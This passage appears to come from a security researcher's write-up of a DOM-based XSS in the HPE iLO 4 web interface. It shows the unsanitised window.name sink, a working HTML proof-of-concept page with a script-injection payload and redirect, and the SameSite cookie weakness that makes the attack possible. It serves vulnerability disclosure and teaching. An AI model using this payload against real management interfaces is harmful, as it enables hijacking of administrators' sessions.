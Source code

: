 </script>
{% endhighlight %}

The variable `rport` immediately stands out as it takes its value from
`window.name`, whose content can potentially be controlled by us. Moreover,
this variable is appended to the DOM without being sanitized first.

{% highlight javascript %}
var rport = window.name;
// ...
document.writeln("RCINFO6=\""+rport+"\"");
{% endhighlight %}

It is easy to verify this by going to
`https://ilo4-01.madoka.pink/html/java_irc.html?lang=en`, manually changing the
value of `window.name`, and reloading the page.

![]({% img xss-applet-window.name.png %}){:class="imgcenter"}

![]({% img xss-applet-inj1.png %}){:class="imgcenter"}
*Injected value closing the "embed" tag*

Therefore, if we find a way to control the value of window.name, we can inject
arbitrary Javascript code into the site.

A simple way to do this is by creating a malicious website that changes the
value of `window.name` and then redirects the user to the vulnerable component
at `https://ilo4-01.madoka.pink/html/java_irc.html?lang=en`.

Something like this:

{% highlight html %}
<!DOCTYPE HTML>
<html>
    <head>
        <title>HPE iLO 4 XSS PoC</title>
    </head>
    <script>
        window.name = '"><script>alert(document.location)<\/script><embed';
        window.location ='https://ilo4-01.madoka.pink/html/java_irc.html?lang=en';
    </script>
</html>
{% endhighlight %}

If a user who is already logged into iLO visits a site containing the above
code, the XSS would execute successfully.

![]({% img xss-applet-alert.png %}){:class="imgcenter"}

![]({% img xss-applet-alert-detail.png %}){:class="imgcenter"}
*Detail of the injected payload*

**[*] Important Detail: The only reason this exploit works is because the
session cookie, sessionKey, is not set to SameSite! If it were, it would not be
sent with the window.location, and there would be no access to the vulnerable
component.**
